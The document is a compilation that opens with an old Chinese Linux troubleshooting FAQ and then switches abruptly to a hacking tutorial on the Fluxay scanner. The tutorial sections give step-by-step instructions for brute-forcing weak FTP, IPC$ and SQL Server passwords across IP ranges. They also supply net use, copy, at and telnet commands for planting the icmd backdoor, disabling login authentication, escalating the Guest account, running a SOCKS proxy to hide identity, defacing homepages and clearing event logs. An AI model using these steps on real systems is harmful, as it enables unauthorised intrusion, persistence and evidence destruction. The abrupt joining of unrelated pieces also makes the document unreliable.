1）Modem 不能拨号：如果调制解调器没有拨号/声音，这说明您的连接没有开始，请查看 `/var/log/messages` 中 PPPD 的出错信息。您可以运行 minicom，输入 `AT`，调制解调器应该返回 `OK!`。如果不返回，那么是您的串口配置错误。重新运行 TurboPPPCfg 确定调制解调器设备已经正确配置，并且已经连接到 `/dev/modem`，在 Linux 下不支持软 Modem。

2）调制解调器已经开始拨号，但是无法连入 ISP。  
- 如果 ISP 使用 PAP 身份验证，您必须打开 TurboPPPCfg 中的 PAP 选项，同时确定您的密码和用户名已经正确输入。  
- 如果反过来 ISP 不使用 PAP，您却使用 PAP，也会出现类似问题。  
- 调制解调器的数据格式错误，您可以运行 minicom，输入 `AT&F1`，接着输入：`AT&W`，退出即可。

3）内置 ISDN 不工作——大多数内置 ISDN 设备在 Linux 下不能正确工作，如果想要为 Linux 购买 ISDN 设备，请购买能够支持标准串口设备的 ISDN 卡，或者外置 ISDN 卡。

### 我用 fetchmail 收邮件，一些垃圾邮件的域名因为不能解释，导致 fetchmail 出错，我在 `~/.fetchmailrc` 中加入了 `no dns`，但问题依旧。请问要怎样才能使 fetchmail 不对邮件域作 DNS 解释？

在 root 下用 `fetchmail --mda "/usr/sbin/sendmail -oem"` 直接将邮件送到邮件目录（看 man 的意思好像是这样吧）。用默认的方法（送到 port 25）需要解释发送者的地址。

### /dev/null 是什么设备？

null 是什么意思？（答案：空的，为零的，不存在的——《新英汉辞典》）举个实例，你把一个文件 move 到 `/dev/null`，那它就永远消失了，就像掉进了黑洞里。并不是什么具体的设备。

### 我想在 win95 下下载后的文件拷到 linux 可以识别的分区里，请问有办法吗？为什么 linux 格式化的软盘 win9x 不能识别？请问他们之间可否有介质来传递文件？linux 下下载文件很慢，请问有什么软件可以是专门下载用的？

当然可以了，Linux 是可以识别 Win9X 的 32 位和 16 位分区的，比如说你的文件放在 `d:\download` 下，那么在 Linux 里面如下操作：`mkdir /d`，`mount -t vfat /dev/hdxx /d`（这里应该是你的 D 区的设备文件名，如果不知道，在 Linux 下：`fdisk p`，此时显示你硬盘的分区信息，按大小和大概位置来找出 D 区的设备名）。

如果是在不同的机器上（但联网）你可以用 ftp，也可以用 smb（相当于 win95 上的网上邻居）。下载东西我一般用 wget，感觉还可以。

### 在安装 TurboLinux 时，在出现安装界面时，出现了花屏，不知哪位大侠能助小弟一臂之力，在下不胜感激。听说有个什么文件，在哪里能下载到呢？

与显卡没有关系！！您肯定用的是 94 年左右生产的 14 寸显示器，安装界面出现了花屏，是由于显示器的刷新频率与汉字显示终端 KON 不匹配。您可在安装时使用其它显示器，安装完后换回老显示器就能正常工作。

### 一些文件属性类似 `---w---S---T rwxrwxrwt`，请问 S、T、t 分别代表什么？

`s` 设置用户 ID 位，`t` 设置粘性位；用大写 `S` 和 `T` 分别表示用户 ID 位和粘性位的状态。

### 一次意外的断电，我用 rh6 搭建的服务器硬盘遭到毁坏，在启动检查硬盘时不能通过，最后提示：`Give root password for maintenance (or type Control-D for normal startup)`。我 Ctrl-D 强制系统启动，但是所有服务均启动失败。如果不重装系统，还有希望恢复吗？

输入口令，进入系统后用 `fsck` 对出问题的盘进行检查，回答相关问题。一般情况下回答 `y` 都可以；如果损坏严重，回答 `y` 可能造成不可逆的文件系统丢失，比如目录丢失、文件丢失。

```text
input root passwd then run fsck -A maybe recover error
```

### 我有一台 PC 机，它有 64M 内存、2G 硬盘。我想使用大于 `0x2000000` 的 SHARE MEMORY，所以我修改文件 `shmparam.h` 的 `#define SHMMAX 0x2000000` 为 `0x3000000`，但是我不知道如何重新编译和安装内核？希望朋友们告诉我详细的操作？

修改这个值，不需要重新编译内核，在运行系统上执行：

```text
# echo "0x3000000" > /proc/sys/kernel/shmmax
```

也可以把它加到某个启动脚本中。

### TurboLinux 中文版 Xwindows 中文不正常，菜单栏上的中文全部成乱码，但“桌面菜单”（在桌面点左键出现的菜单）和标题栏上中文正常，启动图形界面时提示找不到 `.../X11/TT` 里面的字体，估计是 TRUETYPE 字体没有安装，请问到哪里找？如何加？

你用的是 TurboLinux 3.0.2 的版本吧。你到另外一台正常的机器上将 `tt` 目录下的东西全部 copy 到不正常的机器的相同目录下，并且用 `ln` 进行符号链接后就行了。不过你用的这个盘没有程序开发库，因此建议装 4.0 的版本。

### TURBOLINUX 环境下的 LILO 程序怎样设置成默认引导 DOS！请高手详细指教！

修改你的 `/etc/lilo.conf` 文件，如果你的 DOS 的 label 是 dos 的话，再加一句 `default=dos`，然后再执行 `/sbin/lilo` 应该就行了。

### 在 sendmail 里如何控制邮箱大小？

```text
在 /etc/sendmail.cf 中设置，找这个字段：

# maximum message size
O MaxMessageSize=1000000
```

### 用 win95 登录 Samba 服务器，一切正常；用 win98 登录，则报告密码错误，请指教。Samba 版本是 2.0.3。

因为 win95 的密码传输是明文（Plain Text），而 98/NT3.51 SP4、4.0 都是缺省用加密方式（Encrypt），所以会出现问题。解决办法是统一方式：可改注册表或相应修改 `smb.conf` 里的 `encrypt passwords` 选项。

```text
WIN95:
[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\VNETSUP]
"EnablePlainTextPassword"=dword:00000001

win98:
[HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\VxD\VNETSUP]
"EnablePlainTextPassword"=dword:00000001

winnt:
[HKEY_LOCAL_MACHINE\SYSTEM\...]
```


```
CurrentControlSet\Services\Rdr\Parameters]
"EnablePlainTextPassword"=dword:00000001
```

## srm.conf 中的 UserDir 配置为 public_html，但是，对下述 URL 的请求：http://localhost/~toto/index.html 显示为：Forbidden You don't have permission to access /~toto on this server. 为什么？请指教！

你的用户主目录至少要设成 711。

## 如果进入 X Window 后无法退出怎么办？

请先关闭所有 X 下的应用程序，然后按组合键 Ctrl-Alt-BackSpace，即可将 X 关闭。

## TurboLinux 下无法使用我的 Modem 卡，如何解决？

- 1. 硬件跳线的标准硬件 Modem 卡：这种类型的卡不需要配置，只需要知道该卡占用的串行接口号即可。
- 2. PNP 的标准硬件 Modem 卡：您可以使用 turbopnpcfg 或手工配置 pnp，配置成功后与类型 1 的 Modem 使用方法相同。
- 3. WinModem 或软件 Modem（大多数 PCI 总线 Modem）：这种 Modem 通常不能被 Linux 支持，因为它们通常需要使用 CPU 进行信号处理，且硬件接口不公开。
- 4. USB 接口的 Modem：在 Linux 新内核中 USB 部分完善后，将支持此类型的 Modem。

安装了 cdwrite，但 man cdwrite 中说必须要连接到 /dev/sg 设备上。我不知道如何连接，我的 cdr 是 /dev/scd0，使用 `ln -s /dev/scd0 /dev/sg` 报告 device not configured。不连接时 cdwrite 总报告：open scsi device only-read。

设备连接不要用软连接，直接用 `ln /dev/scd0 /dev/sg`，不过 cdwrite 可以直接用 `/dev/sga`、`/dev/sgb` 等。最好使用 cdrecord 1.6.1 以上的版本。不知你的 CDR 是 SCSI 还是 IDE 接口？如果是 IDE 接口，必须重新编译你的 kernel，让 Linux 支持 IDE 模拟 SCSI，并要注意把 sg 也一起编译进核心，因为 cdrecord 是对 CDR 采用 SCSI 指令方式。

## Linux 下如何刻录任何文件系统格式的光盘？

- 你可以试验一下这样刻：
- 1. 用 cat 或 dd 将要刻录 CD 里的东西做成一个文件，比如 a.iso。
- 2. 或许可以用 `mount a.iso /mnt/test -o loop` 看一下内容。
- 3. 用 cdwrite 直接将这个 a.iso 写到 CDR 上。我看了 cdwrite 的代码，似乎是采用 byte-to-byte 的物理拷贝，如果是的话，上面的做法是可以刻录各种光盘的。

## 如何做 bootable CD 的 boot image

做一个能启动的 1.44MB 的软盘，此软盘就可以是一个 boot image。`cat /dev/fd0 > boot.img`。

你只要做一块可以启动的软盘，最好是 lilo 软盘，你就可以在启动时给出其它参数，例如用什么设备作为 root 目录、启动到第几级等。总之，CD 自举就是拿 CD 仿真一个软驱，任何能自举的软盘都可做 boot image。值得注意的是你自举的东西必须有 CD 驱动代码，不然等到控制转移到你所自举的东西上，它又不懂怎么样驱动 CD，你就 out 了。

## 为什么光驱 mount 以后弹不出来了？

Linux 是一个多用户操作系统，挂上去的文件系统是共享的，出于可靠性，是不能随便拆除的。必须先 umount 文件系统，如果有人在使用这个文件系统，就会向你提示。如果是超级用户的话，也可以强制卸下文件系统，不过可能造成数据丢失。光驱的文件系统也同样如此，mount 上去以后不能随便取出，必须卸下之后才可以取出。

## 怎样在 Linux 下安装声卡？

- 记得在 redhat 4.2 版本时，安装声卡还是比较麻烦的（个人观点），但现在的 5.1 版 kernel 已支持声卡，如果是 soundblaster 声卡，只要以 root 身份使用命令 sndconfig 即可设置，非常方便。
- 1) 使用 sndconfig 来设置。
- 2) 修改 `/etc/conf.modules`，加入类似几行：`alias sound sb` `options -k sb io=0x220 irq=5 dma=1,5` `alias midi opl3` `options -k opl3 io=0x388`。
- 3) 在 win95/dos 下，检查你的声卡目前的中断 irq 及 i/o 地址设定，手动装入声卡模块，如 `modprobe opl3 irq=5 dma=1,5 io=220`。
- 4) 如果还无法工作，就只好试试为你的声卡重新编译一个新的内核了。在 `/usr/src/linux` 下执行 `make menuconfig`。如果你还没有装入原代码，现在就装吧：`rpm -i /mnt/cdrom/Redhat/RPMS/Kernel-source*.rpm`。如果你还想知道更多一些，请阅读 `Kernel-Howto` 和 `Sound-Howto`。


## OSS 过期了，怎么办呀？

在某个目录下找到一个 `oss.conf` 之类的东西，不是 `/etc` 就是 `/usr/lib` 什么地方，删除之，再安装 `oss`。当然之前把 `/usr/local` 之类地方的 OSS 目录都删除。

## 我编译完核心后，但 reboot 后不能自动加载声卡，在提示符下敲 `cat /dev/sndstat` 就能用，为什么？

- 1. 修改 `/etc/rc.d/rc.modules`
- 2. 查找 `"sound support"` 字样
- 3. 添加 `"/sbin/modprobe sound"`
- 4. 重新启动

## TurboLinux 下无法使用我的 Modem 卡，如何解决？

- 1. 硬件跳线的标准硬件 Modem 卡：不需要配置，只需知道串行接口号。
- 2. PNP 的标准硬件 Modem 卡：可用 `turbopnpcfg` 或手工配置 `pnp`，成功后与类型 1 使用方法相同。
- 3. WinModem 或软件 Modem（多数 PCI 总线 Modem）：通常不能被 Linux 支持，因为依赖 CPU 信号处理且硬件接口不公开。
- 4. USB 接口 Modem：Linux 新内核中 USB 部分完善后可支持。

## 我的 Linux 为什么普通用户不能登录？

是不是有 `/etc/nologin`，删除再试试。`root` 通常是不能 `telnet` 的，这是很正常的。谢谢！非常感谢！问题解决了！！！！原因：系统在 `shutdown` 时会产生这个文件，如果 `shutdown` 过程意外终止，这个文件就没有被正常删除，这时候普通用户不能登录了。另外系统管理员在线维护系统的时候也可以生成这个文件来阻止用户登录。`man login` 查看详细信息。

## 怎么样做到限时登录？

一个简单的限时登录方法！自己写三个 shell 程序，调用 `at` 和系统维护功能：

```bash
vi /sbin/login.denied
echo "Login Denied" > /etc/nologin
chmod 700 login.denied
```

```bash
vi /sbin/login.allowed
if [ -f /etc/nologin ]; then
  rm /etc/nologin
fi
chmod 700 login.allowed
```

```bash
vi /sbin/security
if [ -f /sbin/login.denied ]; then
  at -f /sbin/login.denied 22:00
fi
if [ -f /sbin/login.allowed ]; then
  at -f /sbin/login.allowed 8:00
fi
```

此种设置的功能是：从晚上 10:00 到第二天早上 8:00 禁止非 root 用户登录，显示为系统维护状态。另外，还需对 root 用户的登录终端进行限制，最好设置在 `console`。在 RedHat 5.0 下在 `/etc/security/access.conf` 中配置：`-:root:ALL EXCEPT console` 就可以了。注：还要参考 `/etc/securetty` 里的设置。

## 网络安全从业终极指南

作者：K0llie

http://niansue.cn

## 作者简介

K0llie，男，国内知名网络安全从业者。现为国内平台分站地区安全负责人，曾任国内相关网络安全部门负责人。主要涉猎领域：网络安全、攻防对抗、病毒与恶意代码分析等。

K0llie 虽是个人昵称称谓，但其本人爱好甚广，热衷技术分享，长期活跃于网络安全圈，持续进行安全研究与实践。


### 一切从流光谈起

谈起国内的黑客，可能因为中国的互联网起步较晚，中国的黑客也很有“中国特色”，这点和中国的 Crack 不同。在我看来，中国的 Crack 更传统、更正规一些。在我所知道被公认的第一批黑客中，他们多是很抽象的概念，这里所说的抽象是我当时的感觉，有点雾里看花。偶尔听到报纸上说，XXX 黑客黑了 XXX，心里立刻肃然起敬。中国人传统的侠义心理在我身上得到充分体现，也许是上学时古龙、金庸看得太多了吧。

后来上了网，拿着 1.44 的极品猫恭敬地浏览着这些大侠的站点，便觉得自己也很高大起来，仿佛自己也成了黑客。同时看了他们所写的一些攻击教程，才发现并不比到隔壁邻居家偷点东西困难。并且自己因为家事离开了网络，主要是上不起，缺￥。之后就是常听到新闻、报纸报道 XXX 黑客黑了某站点、XXX 声称对此负责等等类似言论。感觉到中国的黑客业真是蓬勃地发展起来了：）

我曾经遇到这样的黑客，他连 Win95 都不会装，系统出错要打电话给电脑公司的。我就觉得中国的黑客特色是：浮躁太多，不肯踏踏实实地做事情。说白了就是伪黑客太多，结果就是把我心中神圣的“黑客”两个字变得一文不值。

在国内，流光属于个比较不错的扫描器，是个很有潜力的工具，有代表性！

在流光之前，有许多工具具备流光的特性，应该说是流光吸收了它们的优点，但没有一个像流光这样的高集成度、高渗透性。不论作为一个黑客工具，还是一个安全检测工具，流光都相当具争议性。

从 98 年到现在，流光历经了 N 次开发，到目前的 4.x 版本，从程序架构、界面美工等方面我觉得已经相当完美了。这种完美奠定了小榕在安全界的地位，也反映一个程序员的执着追求，其实也是他自我个性的侧面展示。

曾有人说：如果你真的想学点东西，尽量少用小榕的工具。话虽不错，不过对于一个初学者而言，流光的简单易用正符合低门槛要求，所以从流光谈起，能给新手一些正确的入门捷径。因为在快速有了安全经历后，也许新手更能找到自己应该学习的方向，良好的定位能让人事半功倍。

需要说明的是：我并不是一个流光高手，不能解决你遇到的所有问题，所以当我写下这些文字的时候，心里是很不踏实的。从最初答应几个朋友玩玩的习作到现在这些不成文的系列，希望能给你的学习带来一些方便。

下面是对新手的几个常识问题解答：

- 1. 除了流光，国内还有没有其它比较好的扫描器？
  - A：有，X-scan 就相当不错。
- 2. 流光好用么？
  - A：用了以后再问！（学习最好的办法是体验，空谈只会浪费生命）
- 3. 我是新手，学习中应该注意什么？
  - A：少说多做。
- 4. 为什么我用流光的时候，杀毒软件总说是病毒？
  - A：流光的 Sensor 部分可以远程安装在服务器上，这对远程主机来说是致命的，所以杀毒软件会报为病毒或者木马。

流光的资源：

http://www.netxeyes.com 流光老家，这里除了流光外，还有潮雪、乱刀、流影等。  
http://bbs.netxeyes.org/ 流光 BBS。

### 流光型破解器（一）

#### FTP/POP3 探测

许多新人在初次用流光的时候不知道如何下手，也不知道该选择哪个版本去下载，这里我们先来简单说一下：

流光本身有 For Win9x 和 For WinNT/2000 两个版本，我们用哪个都可以。如果要用流光的全部功能，那么只能是用 For WinNT/2000 的，因为 NT 架构给我们提供了更强大的网络功能。

- 一、POP3/FTP/...探测
- 二、IPC$ 探测
- 三、SQL 探测
- 四、高级扫描
- 五、其它…

我个人认为流光的破解可分为 5 大部分。

因为开发时间的原因，上面的探测模式略有不同，所以分成了四个部分，本章说的是第一个部分的探测。后面的探测模式应该属于流光的高级应用了。

下面我就简单说一下基本的破解流程：


图1 安装流光

- 1、首先你得有流光（本期配套光盘中有提供），我们测试用的是目前较新版本：Fluxay 4.7（GUI Build 3200 Sensor Build 091）Chinese/English Edition For Windows NT/2000/XP，增强了许多功能；另外用以前的 Fluxay Release IV Build 2915 For NT/2000/XP 也可以。
- 2、安装：如果你经常重装系统，可以把它安装到系统外的其它分区，这样以后直接执行 fluxay47.exe 就可以用流光了。安装界面如图1。
- 3、首次启动流光，看到如下图2的界面：


图2

以前的版本首次使用是要注册的，不过不是要你花钱，小榕只是想看看有多少人用他的流光而已。你可以填好相应选项，点发送即可；如果发送失败，你把发送服务器再换个就可以了，现在新版本已不用啦。


图3 升级提示框

我们等下面的进度条走完，会看到图3所示的提示框。

这是流光的升级程序，它会自动检测流光的最新升级。在这里我们点击下面的 URL，把 FluxaySensor 做了一次升级（将下载的文件复制到 Fluxay4.7/FluxaySensor 目录）。当然暂时不升级也可以，并不影响我们今天的课程。

退出上面的升级程序后，弹出如图4窗口；这是设置我们在利用远程主机扫描时传输内容加密的 KEY，用来防止我们的扫描内容/过程被别人监听，这里随意设置就可以，接着就看到了流光的主界面了，如图5所示：


- 2、首先找个站点，测试选用的是 IP 为 192.168.0.1 的一个 FTP 空间。探测方式：这里用 FTP 为例子，而本节内容同样适用于其它目标主机的密码探测。

常有人问扫描端口有什么用，其实作用就是你知道他提供了什么服务，然后可以采取相应的方式来测试服务器的安全性。我们知道主页几乎都用 FTP 上传，我们这次就用来测试一堆用户名，看看有没有弱智密码。检测而已，不要用来搞破坏哦。

- 3、加入要破解的站点名称：右键单击“FTP 主机→编辑→添加→输入需要探测的 IP→确定”。如图6、图7所示。


- 4、加入用户名：我们要测试的是一批用户名，所以要加入用户名列表文件！我们就加入流光目录下的 password.dic。右键单击刚才添加的主机：192.168.0.1 → 编辑 → 从列表中添加 → Password.dic → 打开，如图8、图9所示。如果我们觉得用户名过少，也可以看看流光自带的其它几个字典文件：Normal.dic、name.dic、Words.dic 等等，都适合作用户名。还觉得不够的话，可以用“工具→字典工具→黑客字典Ⅱ流光版”来生成一个方案，如图10所示。这个方案很好用，不占用多少盘空间，还可以任意定制。


大家注意主机名字前面的小框中必须有“√”，要是没有就无法探测，上面的图中均没有，我们把它选中，如图11所示。

- 5、有了用户名，我们就可以进行探测了。大家会想怎么不用密码？其实流光的简单模式探测，就是用内置密码：“123456”、“用户名”、“空口令”来进行探测，因为这样的密码是使用频率最高的。

当然你可以修改这个简单模式的文件，加入你认为弱智的密码。方法是：单击工具菜单 → 模式文件设定 → 简单模式探测设置文件 → 加入你要加入的密码 → 把设置文件存盘！


图10 黑客字典Ⅲ


图11 勾选主机

下面我们就来看看这一堆名字里面有多少是用“123456”和自己名字等弱口令作为密码的。点击菜单：探测→简单模式探测！或者按键盘上的 Ctrl+F7。

探测中……如图12。


图12 简单探测模式

- 6、有结果了，图13：


图13 探测结果

同时在流光主界面的用户列表窗口也有显示，如图14。


图14 用户结果显示


图15 提示探测时间

探测完成后还会出现一个结果窗口，这个就是我们想要的，如图16：

- 7、探测完毕，也看到结果了，流光会问我们是否查看检测报告，不想看可以选否，图17。


图16 本地探测结果提示框


图17 是否查看检测报告提示

- 8、如果要探测的是一个用户名，并且你要暴力破解一个指定用户的密码，那么就需要添加字典，或者密码方案。方法是：右键单击解码字典或方案 → 编辑 → 添加 → 选择一个密码档/方案即可。

以上就是用流光的一次简单探测了，我们说得有点啰嗦了，谁让这是第一课呢。事实上这些功能只能算是流光 2.5 版的功能，流光 4.x 增加的 IPC/SQL/高级扫描/远程 Sensor 扫描等功能，使流光更加强大。

很熟悉了，相信你看流光的 HELP 就会很快学会其它更多、更高级的使用方法。

关于用户名的问题。有人觉得自己加入的用户名不一定存在，如果不存在岂不是白费了力气？这点你大可放心，流光会进行验证的。而且现在一个商业站点注册的用户人数之多，想要一个没有的名字都难，不信你随便敲个试试。

关于字典的问题：流光可以使用字典方案来探测，但我们也可以生成字典。有的新手在做练习的时候不知道怎么做，我们可以采用许多现有的字典工具，万能钥匙、黑客字典等；当然你也可以用记事本生成，每行输入一个密码，存盘后将扩展名改成 `.DIC`，流光就能识别出来了。

### 流光基础教程（二）

#### IPC$ 探测

网络安全技术是把双刃剑，可以保护系统的安全、数据的完整，也可以被利用来搞破坏。作为一个想学习网络安全技术的人来说，应该有正确的心态。技术是无止境的，没有一种工具会让你一步登天。目的不纯、狂妄，是学习安全技术的大忌。交流、学习才是最重要的，把自己心态放正，无论我们是高还是低，这些都无所谓。

本节要学习的是流光的 IPC 探测。

##### 一、目的和任务

- 1. 用流光的 IPC 探测获得一台 NT 主机的管理权限，并将这台主机做成一个跳板/代理。
- 2. 学习 IPC 探测的相关知识。

##### 二、探测流程

- 1、首先你的流光版本必须是 For NT/2000 版本的。For Win9x 的不可以，因为 IPC 连接功能是 NT/2000 提供的功能。而流光 For NT/2000/XP 要求你的操作系统是 NT/2000/XP，否则流光启动会失败！

什么是 IPC：

IPC 是指 “Inter-Process Communications”，准确地说是 IPC$，是默认的在系统启动时的 Admin 共享。IPC$ 是 Windows NT/2K 中特有的远程网络登录功能，它的特点是在同一时间内，两个 IP 之间只允许建立一个连接。

警告：你试图通过 IPC$ 连接会在 EventLog 中留下记录，不管你是否登录成功。

小问题：可不可以通过 IPC$ 暴力破解密码？当然可以！不过，是不是太笨了点……

- 2、启动流光，在主页面上可以有几种方法来通过 IPC。这里我们要做的是获得一台主机的管理权限并最终将这个主机做成跳板，那么就可以用命中率高的办法来探测了，即测试一批 IP 来得到弱口令。在主界面选择“探测→探测 POP3/FTP/NT/SQL 主机”选项（如图1），或者直接按 `Ctrl+R`，然后弹出“主机扫描设置”对话框。


图1 探测 POP3/FTP/NT/SQL 主机


图2 主机扫描设置

- 3、在图2的小窗口中，输入我们要破解的 IP 段。在图2中我们把“将 FrontPage 主机自动加入 HTTP 主机列表”取消了，因为我们只想获得 IPC 弱口令，这样可以加快扫描速度。加入 IP，选择扫描 NT/98 主机。需要说明的是这里我们可以选择的还有很多，包括 SQL/FTP/POP3 等等，灵活运用可以给我们今后的探测工作带来很大的方便。


- 4、探测中……如图3。

警告：如果你要探测的是流光保留的国内 IP 段会被禁止的，也就是探测的时候信息栏出现“IP保留”的字样。免得初学 Hacker 的你误伤国内站点的同时给自己带来麻烦！


- 5、这是扫描到的 NT/98 主机列表，如图4。


- 6、没有扫描到常用密码，就不用查看报告了，如图5。
- 7、有了 NT/98 的机器了，就可以正式开始 IPC$ 探测：右键点击要探测的“IPC$主机→探测→探测所有 IPC$ 用户列表”，或者按键盘的 `Ctrl+F9`，图6。
- 8、注意下面两个复选框的设置（图7），把两个都选上，因为我们只要 IPC$ 管理员的弱口令，而且只要一个就可以了。然后点“选项”。
- 9、点“选项”后，弹出“用户列表选项”对话框（图8）。为了加快弱口令扫描速度，我们把它全部取消。比如第二个选项，既然对方禁止列出用户了，我想对于一个网管来说，弱口令可能性也是微乎其微的。


- 10、探测中……很快就出现破解成功的提示，上面的 FTP 主机（IP 也是 192.168.0.1）也有了相关的变化。下图9是探测完成后的整体变化，通过这些细致的变化，就能看出流光的高自动化。

启动程序，在这里我们用 soon 这个程序来做也可以，它可以取代 3/4 两步。


图9 探测结果

- 11、又出现了查看报告的窗口，这次有结果，当然要看看，图10。


图10 流光的某些报告还提供了解决方法

- 12、有远程主机的管理密码了，我们剩下的就是想办法控制它了，有什么好办法么？当然有很多了。比如在“工具－NT/IIS 工具”菜单下。这些我们以后再说，今天还是先练习 Net 命令吧，这样有利于我们了解这些命令究竟在完成什么样的功能。
- 13、目标是如何被黑的。开个 DOS 命令提示符窗口执行如下命令（图11、图12），“||”后面的是我的说明：

1. `net use \\对方IP\ipc$ "密码" /user:"用户名"`  || 建立远程连接  
2. `copy icmd.exe \\对方IP\admin$`  || `admin$` 是对方的 winnt 目录，这里存放文件多。  
3. `net time \\对方IP`  || 查看对方的系统时间  
4. `at \\对方IP 启动程序的时间 启动程序名 启动程序的参数`  || 用 at 命令来定时启动程序  
5. `telnet 对方IP 端口`  || 通过远程服务端口远程登录目标主机  
6. 输入 `pass.`（口令）|| 如果不是，就用 `icmd.exe`，或者没有设置口令就不用了  
7. 再开个窗口，继续 copy 我们要用的东西（图13）：`copy sock.exe`、`copy ntlm.exe`、`copy cl.exe`、`copy clear.exe`


图11 开启远程端口


图12 添加远程作业

如果我们真的想黑了它，只需要把我们的首页文件覆盖目标的首页就 OK 了。我们可以通过在根目录执行 `dir /s default.htm` 或者 `dir /s index.htm` 来确定对方首页的位置，一般是在 `X:\inetpub\wwwroot\`。

假如首页文件是 `default.htm` 并且在 `c:\inetpub\wwwroot`，这样 `copy default.htm \\ip\c$\inetpub\wwwroot` 就可以用修改好的首页覆盖了对方的首页，下面的图13有演示。

- 8）其实黑人家是很不道德的而且违法的，我们最好是物有所值，做成跳板吧，今后干活方便点。执行我们 copy 过去的 `ntlm.exe`，取消登录验证。再给自己留个后门，比如提升 Guest 的权限，或者其它的后门工具，这类东西太多，自已看吧，看看图13所 copy 的那堆东西。这一步是必须的，尤其是在一些有争议的站点上，或者是国内的站点，除非你想让电视上报道 XXX 地区又捕获弱智黑客一名 XXX。


图13 COPY 致命的命令

- 9）做个 SOCK5 代理玩玩，用在 QQ 上不错哦：

执行我们 copy 过去的 `sock -install`、`net start skserver`，看看用在 QQ 上的效果，这样就可以隐藏自己真实的身份了，而且在局域网中也可以通过服务器上 QQ 了（图14）。


图14 SOCK5 代理上 QQ

是不是没有看清上面的步骤呢？下面是我 Telnet 上去后所有的命令（图15）。


图15 制作 SOCK5 代理

- 10）问题思考：还能做成其它的吗？

当然了，只要你有时间，并且愿意做，一个个人专用的服务器放在你面前，你想做什么都可以。

- 14、日志消除，断开连接：

```bash
cl.exe clear.exe
clear all
net use \\ip\ipc$ /delete
```

执行我们 copy 过去的 `cl.exe`、`clear.exe` 都可以清除日志，比如 `clear all`：清除所有的日志。然后再断开连接：`net use \\ip\ipc$ /delete`。

## 流光星砂教程（二）

## SQL 探测和其它一些说明

关于 IPC$ 终于写完了，相信通过学习你会发现黑一个站点真的不是很难的事情，毕竟这个世界上有无数的 Server，而不是每个管理员都认真负责。由此也可以知晓，配置错误是最常见的安全漏洞。

我们今天要说的是流光的 SQL 探测，顺便说说 IPC$ 补遗和其它的探测手段。

##### 一、目的和任务

- 1. 用流光的 SQL 探测获得一台 NT 主机的管理权限。
- 2. 学习 SQL 探测的相关知识。
- 3. IPC$ 补遗和其它……

##### 二、探测流程

### 1、什么是 SQL

SQL：微软开发的数据库，专门用在微软的 OS 上，功能类似 Linux 下的 MySQL……到底谁类似谁啊？有时间去看看 SQL 的联机手册，说得很明白。

SQL 服务程序支持的网络协议：

- Named Pipes：使用 NT SMB 端口来进行通信，存在被 Sniffer 截获数据的危险。
- IP Sockets：默认状态下开 1433 端口，可以被扫描器探测，存在被 Sniffer 截获数据的危险。
- Multi-Protocol：客户端需要支持 NT RPCs，数据加密。
- NWLink：存在被 Sniffer 截获数据的危险。
- AppleTalk(ADSP)：存在被 Sniffer 截获数据的危险。
- Banyan Vines：存在被 Sniffer 截获数据的危险。

Internet 上，95% 以上的 SQL Server 采用的都是 IP Sockets 协议，流光探测的就是这个协议。

- 2、我们要获得 SQL 主机的管理权限，那么还得用命中率高的办法来探测了（测试一堆 IP 来得到弱口令）。对一台固定主机的探测看下篇的教程：

在主界面选择“探测→探测 POP3/FTP/NT/SQL 主机”选项，或者直接按 `Ctrl+R`，弹出主机扫描设置对话框（图1）。


图1 主机扫描设置对话框

- 3、出现了上面的小窗口，输入我们要破解的 IP 段，我们输入了来看看。（注意如果你要探测的是流光保留的国内 IP 段，会被禁止的，也就是探测的时候信息栏出现“地址保留”的信息）
- 4、探测中……（图2）


图2 探测状态

- 5、有密码了（图3、图4所示）：


图3 探测结果


图4 探测到的密码

同时在主窗口的上面，主机列表和用户列表中也出现了相关的信息，其中主机列表里显示了其它的一些漏洞信息（图5）。


图5 其他漏洞信息

- 6、下面我们进一步获取管理员权限。用 SQL 客户端去连接主机，没有装 SQL 没关系，流光自带了连接工具。以前我一直都是用“大海”的工具 SQLexec，但现在可以不用它了。打开菜单“工具→MSSQL 工具→SQL 远程命令”看看（图6、图7所示）。


图6 SQL 远程命令菜单


图7 SQL 远程命令对话框

- 7、获得管理权限，增加后门（图8）。


图8 获取权限

- 8、现在我们已经是管理员了 :) 以前我们是用 at 命令来远程运行程序，今天顺便说说流光中自带的“种植者”，看看“工具→NT/IIS 工具→种植者”。我们来用它远程启动 `icmd` 这个后门（图9、图10、图11）。


图9 选择种植者


一分钟后登录看看（图12、图13）：


- 9、再说说“工具→模式文件设定→IPC 简单设置”文件（图14）。“工具”中其它的项目和上面说的两个类似。
- 10、日志清除，断开连接，参考 IPC 探测，记住可以用种植者远程执行命令。

##### 三、关于 IPC$ 补遗

- 1、我们虽然只探测管理员（admin）的弱口令，实际上在真正攻击中是任何一个用户口令都不会放过尝试的，因为我们获得了普通用户权限后可以提升权限。事实上，一个普通用户的权限在 *nix 攻击中是非常重要的。
- 2、获得口令后，攻击手法多样，不要局限于我的例程。
- 3、如果对方没有 XXXX 怎么办？这类的问题去看看我以前整理的流光 FAQ，你可以在流光论坛的精华中找到它。

##### 四、关于其它探测

利用 3389？首先终端是 Win2K 提供的功能，所以我们在扫描的时候就要选择“NT/98”的主机，在得到主机列表后自定义端口来扫描这些主机的 3389 端口，然后就可以尝试远程登录。

试探 CISCO 路由器？自己想想怎么做。你会发现流光的许多方便之处，我的意思是说要灵活使用流光。

### 流光基础教程（四）

#### 高级扫描向导

上节介绍了 IPC 探测的基本使用方式，事实上这依然停留在密码探测的阶段。而对一个服务器安全的检测，更多的是对服务器漏洞的检查。所以，这里我们介绍一下高级扫描向导。就功能而言，这两种方式没有什么不同，主要是看个人的使用习惯，当然向导模式比较易用。

##### 一、目的和任务

- 1. 学会高级扫描向导的使用！
- 2. 了解扫描的原理。

### 二、检测流程（针对某一个 IP）

### 1、Start Fluxay

以前我们都是通过某一种探测手段，来测试很多 IP 以获得相应脆弱系统的管理权限。对于某个指定 IP 的主机，是不是有点束手无策了呢？你可以试试流光的高级扫描。本次的测试者……依然是我所在的 xxx 内部服务器：IP `192.168.0.1`。

什么是扫描：简单地说，就是利用 get/put/send 等方法获取目标主机信息的手段。向目标主机发出请求，如果目标主机的某个端口正在侦听，就会对我们的请求给予一定的响应，我们就可以通过这些返回的数据来判断目标主机的状态。


这里我们采用图1中的向导模式 `Ctrl+W`（图3）。


### 2、高级扫描提供了两种方式

- 1) 向导模式（文件—高级扫描向导）（图1）
- 2) 正常模式（探测—高级扫描工具）（图2）

